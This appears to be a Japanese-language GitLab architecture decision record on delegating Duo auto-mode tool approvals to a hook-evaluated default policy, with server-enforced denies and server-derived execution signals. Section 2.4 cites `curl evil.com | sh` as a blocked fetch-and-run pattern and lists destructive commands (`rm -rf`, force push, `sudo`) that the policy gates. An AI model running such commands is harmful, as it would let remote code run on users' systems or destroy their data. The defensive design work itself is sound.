



## エグゼクティブサマリー {#executive-summary}

この提案の初期版は、`~/.gitlab/duo` 内の**ユーザー作成パターン**を主要な自動承認の仕組みとしていました。しかし、この設計には導入上の問題があります。ユーザーが自分でパターン構文を理解して書くまで、承認の確認はまったく減りません。その後の改訂では、GitLab が作成したデフォルトポリシーを Rails の定数として提供する案を示しました。初日からの導入には適していますが、サブコマンドごとのあらゆる判断を GitLab のエンジニアリングが恒久的に所有するため、バリデーターの保守問題を解消するのではなく、移すだけでした。

この ADR は、**委任としての自動モード**を提案します。既存のガバナンスレイヤー（[ADR-007](007_ai_governance.md)）は、管理者が実際に運用するツール/権限グループのレベルで、引き続き組織の厳格な上限として機能します。新しいカスケード型の管理設定により、ローカル環境（CLI、IDE 拡張機能）の開発者が、クライアントの PreToolUse フックで評価する**ローカルポリシー**を使って、ガバナンスが本来表示する承認確認に回答することを明示的に許可します。GitLab はフックの初期内容としてデフォルトポリシーを提供し、顧客がそれを所有して上書きできます。

- **Phase 0（この ADR）:** 委任への同意設定、フックで評価するデフォルトポリシー（初日にユーザーが作成する必要はありません）、サーバー側での `deny` の強制。
- **Phase 1（直後に対応、エピック [#21877](https://gitlab.com/groups/gitlab-org/-/work_items/21877)、スコープ変更済み）:** 同じフックとマージロジックを通じて Phase 0 のデフォルトに重ねる、ユーザー作成ポリシー。別の仕組みを設けるわけではありません。

この説明の安全性を支える不変条件は、**ローカルポリシーは `ask` に回答できますが、管理者の `deny` を上書きすることは決してできない**ということです。拒否はサーバー側で強制され、常に維持されます。ローカルポリシーはいつでも制限を*強める*ことができます（ガバナンスが許可する場合でも、フックの `deny` は有効です）。

## 1. 問題の定義 {#1-problem-statement}

自動モードの価値は、「ほとんどのツール呼び出しに人の介入が不要になる」ことです。現在、これを実現する方法は 1 つしかありません。管理者がグループ全体の `run_commands`/`use_git` 権限グループを常に許可する設定にすることです。このアーキテクチャは、まさにその危険な状態を防ぐために存在します。ガバナンスルールは意図的に粗い粒度であり（1 つのレジストリエントリが `run_command` 全体を、別のエントリが `run_git_command` 全体を扱います）、そのレベルでの「許可」では `git status` と `git push --force` を区別できません。

以前のユーザー作成の設計は粒度を改善しましたが、導入の問題は解決しませんでした。`~/.gitlab/duo` ファイルがまだないため、自動モードの初日は、自動モードをオフにした状態と同じでした。GitLab 作成の定数を使う改訂は導入を改善しましたが、所有権の問題は解決しませんでした。将来のサブコマンドの階層判断（`cargo` は？ `terraform` は？ 新しい `npm` の動詞は？）は、定数を所有するチームに永遠に委ねられます。これは、バリデーターモデルで AppSec が 5 つの回避経路を発見する結果となったものと同じ、際限のない管理負担です（[ADR-009 §1](009_command_validator_deprecation.md)）。

これとは別に、位置引数の不足する保護（[ADR-009 §2.2](009_command_validator_deprecation.md)。`*` はフラグインジェクションを防ぎますが、パッケージ名や URL のような危険な値は防ぎません）については、延期中の引数レベルのガバナンス（`ai_tool_rules.tool_arguments` に対する glob/正規表現マッチング）を利用する案が暫定的に示されていました。しかし、次の 2 つの理由から、これは適切な解決策ではありません。

1. **実施時期が決まっていません。** 引数レベルのガバナンスには、新しいリゾルバーアルゴリズム（具体性に基づく優先順位）、GIN インデックス、管理者に glob/正規表現の意味を伝える UI が必要です。この ADR に含まれるどの作業よりも大きな取り組みになります。
2. **担当する人が違います。** 実装されたとしても、管理者に組織全体の引数ごとの許可/拒否パターンを作成させることになります。管理者は「このツールをブロックする」という粒度で運用すべきであり、ガバナンスはすでにそれを実現しています。コマンド引数ごとのポリシーは、ユーザーごと、ワークフローごとの関心事です。

委任は、この 3 つの緊張関係を同時に解消します。導入（デフォルトポリシーをフックとともに提供し、初日から有効にする）、所有権（顧客が自分のポリシーを所有し、提供するデフォルトは AI Clients チームではなく、定期的にレビューする専任のセキュリティ方針担当者が所有する）、判断の粒度（管理者はグループレベルで同意し、開発者は引数レベルで調整する）です。

## 2. 決定 {#2-decision}

管理者にもユーザーにもパターンの作成を求める前に、同意設定と、フックで評価するデフォルトポリシーを提供します。

### 2.1 新たに導入するもの {#21-whats-new}

- **カスケード型の委任設定**（仮称 `local_policy_tool_approval_enabled`、デフォルトは**オフ**。管理者が強制するための標準的な `lock_*` カラムを持ち、`tool_approval_for_session_enabled` と同じ形です）。意味は、ローカル環境でのガバナンスの `ask` に、人への確認の代わりに開発者のローカルポリシーが回答してよいと、管理者が明示的に同意することです。これは利便性の設定ではなく同意であり、UI の文言でも明確に伝える必要があります。以前は延期されたガバナンス機能として追跡されていた、ユーザーレベルの自動承認へのオプトインを一般化した形で実現します（「管理者がユーザーレベルの設定を解除し、ユーザーが管理者ポリシーの範囲内で自分の設定を選べる」。§7 を参照）。
- **クライアントの PreToolUse フックで評価する、同梱のデフォルトポリシー**（[gitlab-lsp MR !3610](https://gitlab.com/gitlab-org/editor-extensions/gitlab-lsp/-/merge_requests/3610)。**必須の前提条件**であり、現在ドラフトレビュー中）。ポリシーはバージョン管理された 3 階層（`allow`/`ask`/`deny`）のルールセットであり、エピック #21877 ですでに確定したスキーマ（各階層に `{ tool, patterns? }`）を使用します。クライアントに同梱され（静的で、バージョン管理され、サーバーの展開とは独立した LSP リリースで元に戻せます）、専任のセキュリティ方針担当者が定期的なレビューとともに保守します（担当チームは v0 の提供前に確定し、初期階層の承認もその引き継ぎに含めます）。顧客は上書きできます。それが目的です。
- ツール呼び出し承認パスでの**サーバー側の `deny` 強制**（現在、`deny` はサーバー側でまったく永続化も強制もされていません。§4.1 を参照）。デフォルトポリシーの `deny` 階層をサーバー側に登録することで、クライアントが迂回された、古い、または存在しない場合も拒否を維持します。
- **ガバナンスの強制の強化**（§4.1）。委任は、ガバナンスが実際にサーバー側の上限として機能することに依存します。現在のローカル環境ではそうなっていません。クライアントが独自の権限を与えるとワークフロー作成時にガバナンスの解決が完全に省略され、ツールごとのルールを AI Gateway に運ぶ JWT クレームはハードコードされた `web` 環境で解決されるため、`local_access` ルールが届きません。この両方を解消することは、この ADR の前提作業であり、付随的な整理作業ではありません。

### 2.2 明示的に延期するものと、その理由 {#22-whats-explicitly-deferred-and-why-thats-fine}

- **ユーザー作成のローカルポリシー**（エピック #21877、スコープ変更済み）: Phase 1 で、Phase 0 のデフォルトを上書きするレイヤーとして導入し、同じフック、同じマージ関数、同じセッション承認への変換パスで処理します。作り直しは不要です。注: エピックの当初のファイル配置 `~/.gitlab/duo` は、フックの設定規約（!3610 に従い、ユーザーレベルは `~/.config/duo/`、プロジェクトレベルは `.gitlab/duo/`）に置き換わります。ユーザー向けのポリシー設定箇所は 2 つではなく 1 つです。
- **引数レベルのガバナンス**（`ai_tool_rules.tool_arguments` に対する glob/正規表現マッチング、GIN インデックス、具体性に基づく優先順位。§7 を参照）: どちらのフェーズにも不要です。後で提供されれば、ローカルポリシーの上に置かれる*追加の*管理者の上限となり、前提条件にはなりません。
- **値を制約する認可**（例: `curl` のドメイン許可リスト、`npm install` のパッケージ許可リスト）: [ADR-009 §2.2](009_command_validator_deprecation.md) が受け入れている位置引数のトレードオフと同じく、引き続き未解決の不足です。この ADR はそれを解消しませんが、悪化もさせません。同梱のデフォルトはこれらを `ask` に保ちます（バリデーターモデルの強制内容をそのまま再現し、デフォルトでは何も弱めません）。制限を緩める場合は、顧客による意図的で同意済みの判断となり、その主体を監査で特定できるようにします。
- **サンドボックス化/実行の隔離**: 同種の製品はすべて、誤った `allow` が壊滅的な結果を招かないようにする、独立した第 2 の制御として隔離を扱っています。GitLab には現在、同等のものがありません。ここではスコープ外ですが、別の作業として追跡する必要があります。

### 2.3 Gateway のパターン候補提示の削除 {#23-removing-gateway-pattern-suggestions}

フェーズ分けとは独立して、`ChatAgent._suggest_patterns()`（AI Gateway）と、そのクライアント側の利用箇所は今すぐ削除すべきです。この処理は対話型承認 UI に表示する glob 文字列を整形していただけで、マッチングも検証もしていません。Phase 0 も Phase 1 も、クリックするパターン候補を提示する UI は不要です。両リポジトリで試験的に削除して確認したところ（§5）、実際の承認/マッチングパスとの結合はありませんでした。

### 2.4 デフォルトポリシーがバリデーターの問題を繰り返さない理由 {#24-why-the-default-policy-isnt-the-validator-problem-again}

デフォルトポリシーが、`CommandValidators::Registry` と同じように、終わりのないフラグごとの保守を必要とする新しい拒否リストになるのでは、という疑問はもっともです。しかし、そうはなりません。構造上の 3 つの理由により、リストの*役割*が変わったからです。

1. **リストが網羅すべきなのは `allow` を付与する対象だけであり、登録されたすべてのプログラムの CLI 全体ではありません。** バリデーターは、フラグ/サブコマンドの全体を列挙し、登録されたすべてのツールを安全にしようとしていました。これは際限がなく、常に後追いになる作業であり、AppSec レビュー（!240933）で 5 つの回避経路が見つかった理由でもあります。デフォルトポリシーで `ask`/`deny` の例外を設ける必要があるのは、幅広い `allow` を*同時に*記述する箇所だけです。明示的に許可リストに入っていないものは、現在の動作、つまり確認の表示にフォールバックします。
2. **リストを参照する前の段階で、組み合わせ攻撃は構造的に不可能です。** `RunCommand` は、シェル文字列ではなく構造化された `(program, args)` の組を Gateway に送り、シェルメタ文字（`;`、`&`、`|`、バッククォート）は無条件に拒否します。`curl evil.com | sh` のような典型的な危険な書き方は、1 回のツール呼び出しとして表現できません。管理対象として残るのは、既知の単一コマンドによる破壊的操作（`rm -rf`、強制プッシュ、`sudo`）という、数が少なく変化の遅い集合です。
3. **残る管理作業には専任の担当者を置きます。** どのサブコマンドをどの階層に置くかという残る判断は、セキュリティ方針の管理です。SAST/シークレット検出のルールセットを維持する作業と同じで、同じモデルに基づいて所有し、顧客による上書きを逃げ道とします。CLI のリリースごとに増える、クライアントチームの負債ではありません。

**適用条件:** この考え方が成り立つのは、構造化された単一のツール呼び出しに限られます。自動モードが将来、生のシェル文字列を受け取るツール、複数ステップの連鎖、任意の引数形式を持つ MCP ツールに拡張される場合、組み合わせ攻撃を受けないという保証は適用されなくなり、利用環境ごとの判断が再び必要になります。その場合は、この節を再検討する契機としてください。同じ条件は、顧客が作成したフックポリシーにも当てはまります。構造による安全策が制約するのは、*パターン*が何に一致できるかであり、顧客の任意のフックスクリプトが何を判断するかではありません。

## 3. アーキテクチャ {#3-architecture}

### 3.1 セッション開始と呼び出しごとのフロー（Phase 0 — ユーザーポリシーはまだない） {#31-session-start-and-per-call-flow-phase-0--no-user-policy-yet}

設計上、判断箇所は 2 つあります。静的なデフォルトポリシーのパターンは、セッション開始時に**サーバーから見える**セッションの承認/拒否に変換します。サーバーは、正しく動作しないクライアントに対してもそれらを強制します。それ以外のもの、つまり顧客のポリシー拡張、動的な判断、呼び出しが永続化されたどのパターンにも一致しない場合のフォールバックについては、PreToolUse フックが**呼び出しごと**の判断箇所です。フックの `allow` は委任ケイパビリティが付与された場合のみ採用し、フックの `deny` は常に採用します（制限の強化は常に安全です）。

### 3.2 Phase 1 — ユーザーポリシーの導入、作り直し不要 {#32-phase-1--user-policy-lands-zero-rework}

変わるのは、`merge(governance_ceiling, default_policy, user_policy)` の第 3 引数が `None` ではなく、フックのユーザー/プロジェクト設定から得た実際の値になることだけです。優先順位は変更しません。**ガバナンス → deny → ask → allow → デフォルトポリシー → 確認表示**です。後段のミューテーション、`CommandPatternMatcher`、サーバー側の拒否の強制、フックの契約はすべて変更しません。

### 3.3 直交する 2 つのサーバー由来の軸: execution_mode と surface {#33-two-orthogonal-server-derived-axes-execution_mode-and-surface}

この ADR で委任の前提となるガバナンスの上限を信頼できるのは、その解決に使う事実をクライアントが選べない場合だけです。**独立した、サーバーから導出するシグナルは 2 つ**あり、この設計では一方を他方にまとめず、別々に保ちます。

- **`execution_mode`（二値: `client` / `background`）: 信頼性と対話性のシグナル。** `client` は人がいて対話する状態（CLI、IDE、対話型 Web UI）、`background` は人が介在しない状態（CI、サービスアカウントによる実行）です。これは**権限の上限制約**を決めます。クライアントが提供する権限を信頼し、上限制約をかけずに扱うのは、それが安全な利用環境だけです。これは**信頼に関わる**情報であり、必ず**サーバーで導出**する必要があります。クライアントが自分の実行モードを主張できれば、自分で適用ルールを選べてしまいます。
- **`surface`（3 種類: `web` / `local` / `background`）: どのポリシーカラムを適用するか。** `Ai::ToolRule` は 3 つのアクセスカラム（`web_access`、`local_access`、`background_access`）を持ち、それぞれ `allow`/`ask`/`deny` を取ります。ただし、人が介在しない環境では `ask` に答える人がいないため、`background_access` は `allow`/`deny` のみに制限します。`access_for(surface)` は利用環境をそのカラムに対応付けます。これも**信頼に関わる**情報（利用環境を偽装すると緩いカラムを選べるため）であり、必ず**サーバーで導出**する必要があります。

**設計上の決定: 両方の軸を維持し、区別し、どちらもサーバーで導出します。** `execution_mode` は二値のままです（信頼/上限制約）。`surface` は 3 種類のままとし、Web 環境に、CLI/IDE（`local_access`）とは別の `web_access` カラムを維持します。Web を `local_access` に統合することは**なく**、利用環境の選択を二値の `execution_mode` に集約することも**ありません**。対話型 Web UI は `client`（execution_mode。信頼/上限制約は対話型環境と同じ動作）**かつ** `web`（surface。`ask` をサポートする `web_access` に対応）です。2 つのシグナルは異なる問いに答え、異なる箇所で使用されます。

| 利用環境 | `execution_mode`（信頼/上限制約） | `surface`（ポリシーカラム） |
|---|---|---|
| CLI / IDE | client（対話型） | `local` → `local_access` |
| 対話型 Web UI | client（対話型） | `web` → `web_access`（`ask` をサポート） |
| CI / サービスアカウント | background（無人） | `background` → `background_access`（`ask` → `allow`） |

**Web UI のガバナンスに関する実装上の注意。** 現在、対話型 Web UI では、両シグナルともまだ完全にはサーバー由来でない入力に依存しています。偽装可能なクライアントの `environment` 文字列や `caller_can_execute` に頼らずに、サーバー側で対話型 Web UI を `web` の surface **かつ** `client` の execution_mode として導出できる必要があります（Web パスは `caller_can_execute: false` を返すため、これを使うと `background` と誤分類します）。Web UI で両シグナルをサーバー由来にする作業は Web UI ガバナンスの後続作業であり、この ADR が先に提供する CLI/IDE 環境を妨げるものではありません。

**命名の落とし穴（コードで確認済み）。** 現在の `GovernanceSurface` では、`environment: web`/`ambient` は*バックグラウンド*環境とされており（ここでの `web` は旧来の `ambient`）、対話型の Duo Web UI では**ありません**。対話型 Duo Chat は `chat`/`chat_partial` として到着し、現在は `local_access` に対応します。つまり、「web」は多義的です。`web_access` *カラム*は対話型 Web UI の想定される対応先ですが、`environment: web` *文字列*は現在、旧来のアンビエント/バックグラウンドパスを示します。判定基準の切り替え（§3.4）では、アンビエント扱いの `environment: web` ではなく、サーバーで導出した利用環境によって対話型 Web UI が `web_access` に対応するよう、この問題を解決する必要があります。

### 3.4 実行モードの基盤（サーバーで導出し、永続化する） {#34-the-execution-mode-substrate-server-derived-persisted}

上記の軸のモデルには、サーバーが所有する実行モードの信頼できる情報源が必要です。それを 2 つの要素で提供します。

- **封印された分類（提供済み）。** `Ai::DuoWorkflows::FlowExecutionAuthorizer` は、クライアントの自己申告ではなく、**エンドポイント + リクエストの形**（`caller_can_execute`、`start_workflow`、`item_consumer_id`）から `Classification`（`CLIENT` / `BACKGROUND`）を導出します。`Classification.new` は private なので値を偽造できず、`CreateWorkflowService` は信頼する前に型を再確認します。[gitlab!248339](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/248339)（マージ済み）で提供され、`duo_client_executed_flow_governance` で制御されます。これが、構造によって表現したサーバー由来の `execution_mode` シグナルです。
- **永続化カラム（進行中）。** [gitlab!250574](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/250574) は `duo_workflows_workflows` に永続化された `execution_mode` カラム（列挙型 `{ client: 1, background: 2 }`、`executed_by_*` 述語、`execution_unclassified?`）を追加します。封印された分類から書き込み、クライアントのパラメーターからは除去します。これにより、信頼できる `execution_mode`（信頼/上限制約のシグナル）を永続化し、後段のすべての箇所で、再導出したり `environment` を信頼したりする代わりに、これを基準として上限制約を適用できます。

**現在の稼働状態。** `Ai::ToolRules::GovernanceSurface.for(...)` はすでに 3 種類の `surface` を解決し、`web_access` もすでに稼働中のカラムです。`environment: web`/`ambient` は `:web` → `web_access`（`ask` をサポート）に対応します。**ただし**、バックグラウンドのフラグがオンで、フローが許可リストに含まれる場合は、`:background` → `background_access`（`ask` → `allow`）に対応します。`ide`/`chat`/`chat_partial` は `local_access` に対応します。不足しているのは、この 3 種類の利用環境が、まだ**クライアント提供の `environment` 文字列**から選ばれる点です。また、§3.3 の命名の落とし穴で述べたとおり、現在の `environment: web` は対話型 Web UI ではなく、旧来のアンビエント/バックグラウンドパスを示します。

**追跡対象の手順としての判定基準の切り替え（[gitlab#618761](https://gitlab.com/gitlab-org/gitlab/-/issues/618761)）。** この切り替えで利用環境の選択を二値の `execution_mode` に集約することは**ありません**。既存の **3 種類の利用環境の選択をサーバー由来**にし（偽装可能なクライアントの `environment` への依存を除去）、`execution_mode` は**信頼に基づく上限制約**に使用します。`web_access` は、独立した稼働中のカラムとして維持します。対話型 Web UI は、偽装可能なクライアントの `environment` や `caller_can_execute` を通じてではなく、サーバー側で `web` の surface（`web_access` に対応）として、そして別途 `client` の execution_mode（上限制約用）として導出できる必要があります。これにより、残っているカラム選択の抜け道を解消します。!250574 で永続化された `execution_mode` が導入された後に実施します。それまでは、「ローカルで拒否」の強さはクライアントが `environment` について正直であることに依存します（`environment` が偽装された、または存在しない場合の失敗は、最悪の方向である、*上限制約のない* Web パスへの逸脱になります）。

判定基準の切り替え時に解消すべき関連する構造上のリスクがあります。利用環境の解決は現在、`create_workflow_service`、`update_agent_privileges_service`、`workflow_context_generation_service`、`workflows.rb` に重複して存在し、それぞれが独自の `|| :web` フォールバックを持っています。単一のサーバー由来の決定元（ワークフローから取得する surface + execution_mode。クライアントの `environment` パラメーターは使用しない）に統合し、新しい呼び出し箇所で上限制約を忘れたり、誤ったカラムを選んだりできないようにしてください。

## 4. リポジトリごとの実装計画 {#4-implementation-plan-by-repo}

各コードベースの直接調査に基づいており（下記のファイル参照を確認）、推測ではありません。

### 4.1 `gitlab`（Rails モノリス） {#41-gitlab-rails-monolith}

- **ガバナンスの迂回: 解消済み（[gitlab!249463](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/249463) で提供済み）。** 以前は、クライアントが `agent_privileges` を提供すると `CreateWorkflowService#resolve_agent_privileges` が早期リターンし、CLI で作成したワークフローはガバナンスの解決を完全に省略していました。また、`tool_access_policies` JWT クレームの呼び出し箇所は `surface: :web` をハードコードしていたため、`local_access` ルールが AI Gateway に届きませんでした。!249463 では `Ai::ToolRules::GovernanceSurface`（利用環境の選択）を導入し、`Ai::ToolRules::ResolutionService` を通じて解決し、`clamp_client_privileges` を追加して、クライアント提供の権限をそのまま信頼せず、常に解決するようにしました。両方とも `duo_workflow_local_tool_governance`（ローカル環境）と `duo_workflow_background_tool_governance`（バックグラウンド）で制御します。**残っている未解決部分:** `GovernanceSurface` は、*どのカラム*を適用するかについて、まだクライアントが主張する `environment` 文字列を基準にしています（§3.4 を参照）。Web 環境は依然として上限制約から早期リターンします（Web の場合、`clamp_client_privileges` が早期リターンします）。これにより、`environment` が偽装された、または存在しない場合の失敗が、上限制約のない Web パスへの逸脱につながります。ローカル環境のガバナンスの GA リリースを妨げているのは、この提供済みの上限制約ではなく、§3.4 の判定基準の切り替えです。
- **新しいカスケード型設定**: `local_policy_tool_approval_enabled`（+ `lock_*`）。デフォルトはオフで、`tool_approval_for_session_enabled` にそのまま従います（`ee/app/models/ee/namespace_setting.rb`、`app/models/concerns/cascading_namespace_setting_attribute.rb`）。GitLab Duo の構成ページに表示します（ガバナンスページではありません。ガバナンスは管理者がルールを書く場所であり、構成はクライアントがルールとどうやり取りするかへの同意を与える場所です）。既存の `compute_server_capabilities` フィルター（`ee/lib/api/ai/duo_workflows/workflows.rb`）を通じて、`local_policy_tool_approval` ケイパビリティ文字列としてクライアントに渡します。現在 `tool_call_approval`/`tool_call_pattern_approval` を制御しているのと同じ仕組みです。
- **変更せずに再利用**: `Ai::DuoWorkflows::CommandPatternMatcher`（`ee/app/models/ai/duo_workflows/command_pattern_matcher.rb`）。フラグインジェクションのルール（`rejects_flag_target?`/`flag_token?`）とシェルメタ文字の拒否（`Workflow#command_safe_for_pattern_approval?` 内の `SHELL_METACHARACTERS` チェック）は、[ADR-009](009_command_validator_deprecation.md) が説明する安全策そのものであり、`ToolCallApprovals#approved?`（`ee/app/models/ai/duo_workflows/workflow.rb:260-285`）から呼び出します。第 2 のマッチングエンジンは不要です。
- **新規: サーバー側の拒否。** 現在 `UpdateDuoWorkflowToolCallApprovals` が追加するのは*承認*だけであり、このパスのどこにも `deny` 引数や永続化された拒否状態はありません（`ee/app/services/ai/duo_workflows/update_tool_call_approvals_service.rb`、`ToolCallApprovals#approved?` で確認済み）。ミューテーションに `action` 列挙型（`allow`/`deny`）、`ToolCallApprovals` に並行する `denied?` チェックを追加し、ツール実行パスで `approved?` より先に `denied?` を確認します。これにより、デフォルトポリシーの `deny` 階層を無視するクライアントにも強制できます。
- **監査**: 既存の `duo_tool_call_approved` パターン（`Gitlab::Audit::Auditor`、`ee/config/audit_events/types/`）を、`duo_tool_call_denied` と `duo_tool_call_auto_approved` で拡張します。自動承認イベントには**判断元の帰属情報**（ポリシー承認の場合は、同梱のデフォルト、ユーザーポリシー、フックのどのレイヤーか。あるいは人による承認か）を含め、管理者が活動をレビューする際に、人が行っていない承認を正確に把握できるようにする必要があります。帰属情報には、提供済みの `ApprovalSource` 列挙型（`USER_EXPLICIT`、`PRETOOLUSE_HOOK`、`AUTO_MODE`、`PREAPPROVED_CONFIG`、`SESSION_APPROVAL`。`approval_source` フィールド）を使用し、gRPC 契約で運びます（Layer-1 帰属情報の一連の変更、マージ済み）。**注意点と不変条件:** クライアントが報告する `ApprovalSource` 値は情報提供のみを目的とし、サーバー側では検証しません。サーバーが生成するのは `SESSION_APPROVAL` だけです。これらが安全なのは、*これらの値によって分岐する処理がない*ためです。制御するのはサーバーのツールセットと Rails の承認チェックです。この ADR は、`AUTO_MODE`/`PRETOOLUSE_HOOK` が判断を制御することを禁止します。将来、判断元ごとに動作を変えたい場合は、まず判断元をサーバー由来の値にする必要があります。**L2（監査の完全性、次の段階）:** `approval_source` は現在、ストリーミング承認イベントにしか含まれていません。永続化される `ai_tool_invoked` イベント（gitlab#603370 Phase 2）に渡すことで、通知なしの再利用とサーバー側の省略処理が、アプリ内の監査 UI に表示されるようになります。

### 4.2 `gitlab-lsp` {#42-gitlab-lsp}

- **必須の前提条件**: PreToolUse フック（MR !3610、ブランチ `db/pretool-hooks`、ドラフトレビュー中。`packages/lib_hooks/src/` を `tool_approval_handler.ts` に接続）。フックの契約（終了コード 0 + JSON の判断、終了コード 2 = 拒否、タイムアウト = 意見なし。優先順位は deny > allow > ask）が、この ADR の基盤となる呼び出しごとのポリシー判断箇所です。その MR に対して追加する委任の変更は、フックの `allow` を `local_policy_tool_approval` サーバーケイパビリティで制御すること（ケイパビリティがなければ `allow` を `ask` に下げます。`deny` と `ask` の制御は不要）と、承認テレメトリーに判断元の帰属情報を追加することです。
- **新しいケイパビリティ**: `local_policy_tool_approval`。`supportsPatternApprovals` にそのまま従います（`packages/lib_tool_approval/src/capability_checker.ts`）。
- **デフォルトポリシーをクライアントに同梱**し、フックの初期ポリシーとします。静的で、バージョン管理され、サーバーの展開とは独立した LSP リリースで元に戻すことができ、ネットワーク往復の前に利用できます。リリース時に担当チームの正規ソースから取り込みます（固定バージョンの更新がレビューの確認点です）。不適切なポリシーへの緊急対応手段はポリシーのホットフィックスではなく、サーバー側のケイパビリティフラグです。同意をオフにすれば、次のワークフロー作成時にすべてのクライアントが人への `ask` に戻ります。
- **変更せずに再利用**: `persistPatternApprovalForSession()`（`packages/lib_tool_approval/src/persistence.ts`）。デフォルトポリシーの `allow` エントリは、手動で承認したパターンとまったく同じ呼び出しを通じて変換します。新しいミューテーションの形は不要です（`action: deny` 列挙型で既存のものを拡張します）。
- **新しいマージ関数**: `packages/lib_tool_approval/src/policy_merge.ts`。`(governancePolicy, defaultPolicy, userPolicy)` を受け取ります。Phase 0 では `userPolicy` なしで呼び出します。Phase 1 では、この関数のシグネチャや変換パスを変更せずに、フックのユーザー/プロジェクトポリシー設定を接続します。
- **IDE/webview はクライアント展開の Phase 2 であり、設計の不足ではありません**: `lib_hooks` は LSP コアにあり、IDE 拡張機能でもローカルで動作します。不足しているのは、webview の承認フローを同じフックへの問い合わせに接続することです。再設計するのではなく、延期しています。

### 4.3 `gitlab-ai-gateway` {#43-gitlab-ai-gateway}

- ここに新しいマッチングロジックはありません。Gateway はもともとマッチングを所有せず、GraphQL を通じて Rails に委任し（`ToolsRegistry.approval_required()`、`duo_workflow_service/components/tools_registry.py:423-508`）、真偽値の結果をセッションごとにキャッシュしていることを確認しています。この点はそのまま維持します。§4.1 の新しい拒否シグナルを運ぶため、レスポンスの形だけを真偽値から 3 状態（`allow`/`ask`/`deny`）に拡張する必要があります。
- Rails 呼び出しもパターンマッチングもまったく行わない、第 2 の独立したツール名のみの承認パス（`agent_platform/v1/components/agent/nodes/tool_approval_request_node.py`、`Toolset.approved()`）が存在することも確認しました。このパスにはもともと候補提示が接続されておらず、この ADR で変更する必要はありません。Phase 0 の展開時に不要なコードと誤解されないよう、ここに明記しています。

### 4.4 テレメトリー {#44-telemetry}

アーキテクチャを変更せずに段階的に追加できるよう、4 つのフックポイントを今設計します。`duo_tool_approval_decision`（判断 + **判断元**: 人 / 同梱のデフォルト / ユーザーポリシー / フック + 一致したパターン）、`duo_tool_governance_override`（ガバナンスが設定の一致を上書きした）、`duo_tool_config_denied`、`duo_tool_config_loaded`（パターン数、検証エラー）です。これらは、Phase 1 の提供後に追跡する価値のある 4 つの指標を支えます。パターンごとの自動承認率、手動オーバーライド率（パターンに一致するはずなのに確認が表示された場合。デフォルトポリシーが保守的すぎることを示します）、自動モードでのガバナンス拒否率、設定のパターン数の分布（広すぎる、または狭すぎる設定を検出）です。

## 5. Gateway のパターン候補提示の削除 — 検証済みの削除/再利用一覧 {#5-removing-gateway-pattern-suggestions--verified-removalreuse-lists}

使い捨てのワークツリーで試験的に削除して検証しました（すべてのテストを再実行し、コミットは作成していません）。

**`gitlab-ai-gateway` — 安全に削除できるもの:**

- `ChatAgent._suggest_patterns()` とそのモジュール定数（`duo_workflow_service/agents/chat_agent.py`）
- `ToolInfo.suggested_patterns` フィールド（`duo_workflow_service/entities/state.py`）
- `test_chat_agent.py` と `test_notifier.py` の関連するテストクラス/フィクスチャ

**`gitlab-ai-gateway` — 維持すべきもの（自動モードはここに接続します）:**

- `ToolsRegistry.approval_required()`、`is_preapproved()`、`_approved_cache`、`TOOL_CALL_APPROVED_QUERY`。実際の判断箇所です。
- `contract.proto` の `Approval`/`Approval.Approved`/`Approval.Rejected`。`suggested_patterns` はこの契約に含まれたことがないため、変更は不要です。
- `agent_platform/v1` のツール名のみのパス。変更せず、関連もありません。

**`gitlab-lsp` — 安全に削除できるもの:**

- `getApprovalOptions()` 内の `suggested_patterns` を読み取るブロック（`chat_message_helpers.js`）
- `ToolInfoSchema.suggested_patterns`（`packages/lib_workflow_api/src/ui_chat_log.ts`）
- 関連する正常系のテスト

**`gitlab-lsp` — 維持すべきもの:**

- `capability_checker.ts`、`persistence.ts`、`update_tool_call_approvals.ts`。どれも候補提示フィールドに依存していませんでした。
- `getApprovalOptions()` 内の、基本となる 1 回のみ承認 / セッション中承認の UI ロジック。
- **設計レビューで確認する点:** `supportsPatternApprovals` は候補表示だけでなく、一般的なパターン承認ケイパビリティを制御します。このフラグ自体を転用または削除する前に、Product に確認してください。

## 6. 展開 {#6-rollout}

| フェーズ | 提供内容 | 必要条件 |
|---|---|---|
| 0（この ADR） | 委任への同意設定 + フックで評価するデフォルトポリシー + サーバー側の拒否 | PreToolUse フック（gitlab-lsp !3610）のマージ、ガバナンス迂回への上限制約の提供（!249463、フラグ `duo_workflow_local_tool_governance` / `duo_workflow_background_tool_governance`）、実行モード基盤の導入（`duo_client_executed_flow_governance` のもとでの封印された分類 !248339、永続化された `execution_mode` !250574）、およびそれを基にした `GovernanceSurface` の判定基準の切り替え（§3.4）。初期デフォルトポリシーの担当チームによる承認。ADR-006/007 の基盤と ADR-009 の構造に基づく安全策を変更せずに再利用します |
| 1（#21877、スコープ変更済み） | 同じフック、同じスキーマ、同じマージ関数を通じたユーザー作成ポリシー | Phase 0 の提供完了 |
